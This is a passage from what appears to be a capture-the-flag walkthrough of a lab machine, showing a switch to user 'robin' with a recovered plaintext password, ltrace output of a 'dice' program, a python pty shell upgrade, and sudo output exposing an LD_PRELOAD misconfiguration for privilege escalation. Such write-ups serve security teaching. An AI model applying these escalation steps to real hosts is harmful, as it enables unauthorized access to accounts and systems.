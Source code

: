 >```bash
>/usr/share/nginx/serverchecker/public>su robin
>su robin
>Password: 40373df4b7a1f413af61cf7fd06d03a565a51898
>id
>uid=1000(robin) gid=1000(robin) groups=1000(robin)
>```

## robin

In robins /home directory we find a debug.gpg file:

>```bash
>cat /home/robin/debug.gpg
>-----BEGIN PGP SIGNED MESSAGE-----
>Hash: SHA1
>
>Dude,
>
>I know you are trying to debug this stupid dice thing, so I figured the below
>will be useful?
>[...]
>__libc_start_main(0x555555554878, 1, 0x7fffffffe508, 0x5555555548e0 <unfinished ...>
>getenv("LD_PRELOAD")                                                                                          = nil
>rand()                                                                                                        = 1804289383
>__printf_chk(1, 0x555555554978, 0x6b8b4567, 0x7ffff7dd40d4)                                                   = 22
>__cxa_finalize(0x555555754e00, 0, 0, 1)                                                                       = 0x7ffff7dd6290
>+++ exited (status 0) +++Dice said: 1804289383
>[...]
>```

The sudoers file gives another big hint:

>```bash
>sudo -l
>sudo: sorry, you must have a tty to run sudo
>python -c 'import pty;pty.spawn("/bin/bash")'
>[robin@fII public]$ sudo -l
>[sudo] password for robin: 40373df4b7a1f413af61cf7fd06d03a565a51898
>
>Matching Defaults entries for robin on this host:
>    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
>    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
>    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
>    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
>    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
>    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", env_keep+=LD_PRELOAD,
>    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
>
>User robin may run the following commands on this host:
>    (bryan) /usr/local/bin/dice
>```
